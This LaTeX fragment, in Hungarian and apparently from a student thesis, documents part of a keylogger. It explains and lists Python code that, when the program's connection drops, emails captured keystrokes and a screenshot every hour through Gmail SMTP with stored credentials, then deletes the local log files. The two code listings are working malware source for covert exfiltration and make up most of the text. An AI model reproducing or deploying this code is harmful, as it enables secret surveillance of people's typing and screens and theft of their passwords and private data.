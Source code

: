 \documentclass[12pt,a4paper,oneside]{report}
\begin{document}
Ha a kapcsolat felbomlott, akkor e-mail-en keresztül küldi tovább az adatokat óránként. Itt lépnek érvénybe a gmail cím, a jelszó, a gmail szolgáltatás, és a gmail port. Az adat felépítése ugyan úgy zajlik, mint a kapcsolat alatt. Ebben az esetben a lenyomott billentyűket összegyűjti egy állományba és azt csatolja később az e-mail-hez a képernyőképpel együtt. Egy e-mail felépítése python 3-ban:
\begin{lstlisting}{language=Python}
msg = MIMEMultipart()
msg['From'] = self.email_address
msg['To'] = self.email_address
msg['Subject'] = 'Keylogger result'
body = date_time
msg.attach(MIMEText(body, 'plain'))
file_attachment = MIMEBase('application', 'octet-stream')

with open(os.path.join(temp_path, filename), 'rb') as handler:
	file_attachment.set_payload(handler.read())

encoders.encode_base64(file_attachment)
file_attachment.add_header('Content-Disposition', "attachment; filename=" + filename)
msg.attach(file_attachment)

if take_screenshot(self.temp_path):
	image_attachment = MIMEBase('application', 'octet-stream')

	with open(os.path.join(self.temp_path, "screenshot.png"), 'rb') as handler:
		image_attachment.set_payload(handler.read())

	encoders.encode_base64(image_attachment)
	image_attachment.add_header('Content-Disposition', "attachment; filename=screenshot.png")
	msg.attach(image_attachment)

content = msg.as_string()
\end{lstlisting}
Miután felépítettük az e-mail-t, kell csatlakozni a gmail szolgáltatóhoz és elküldeni azt. Ha az e-mail sikeresen el lett küldve, akkor az az állomány, amelybe a lenyomott billentyűket mentettük, törlésre kerül, hogy ne küldjük el ugyan azt mégegyszer. A $content$ változó tartalmazza a teljes e-mail-t a csatolmányokkal együtt.
\begin{lstlisting}{language=Python}
with smtplib.SMTP(self.smtp_alias, self.smtp_port) as smtp_server:
	smtp_server.starttls()
	smtp_server.login(self.email_address, self.email_password)
	smtp_server.sendmail(self.email_address, self.email_address, content)

if os.path.isfile(os.path.join(temp_path, filename)):
	os.remove(os.path.join(temp_path, filename))
if os.path.isfile(os.path.join(temp_path, "screenshot.png")):
	os.remove(os.path.join(temp_path, "screenshot.png"))
\end{lstlisting}
\end{document}

